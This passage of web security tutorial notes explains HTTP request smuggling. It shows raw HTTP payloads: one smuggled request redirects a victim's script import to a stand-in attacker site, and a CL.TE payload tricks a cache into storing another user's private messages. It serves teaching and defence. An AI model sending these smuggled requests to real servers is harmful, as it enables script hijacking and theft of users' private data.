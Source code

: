 The smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server. For example:

```http
GET /home HTTP/1.1 
Host: attacker-website.com 
Foo: X

GET /scripts/include.js HTTP/1.1 
Host: vulnerable-website.com 

HTTP/1.1 301 Moved Permanently 
Location: https://attacker-website.com/home/`
```

Here, the user's request was for a JavaScript file that was imported by a page on the web site. The attacker can fully compromise the victim user by returning their own JavaScript in the response.

## Using HTTP request smuggling to perform web cache deception

#### What is the difference between web cache poisoning and web cache deception?

-   In **web cache poisoning**, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
-   In **web cache deception**, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X
```

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z
...
```

```http
GET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 200 Ok
...
<h1>Your private messages</h1>
...
```
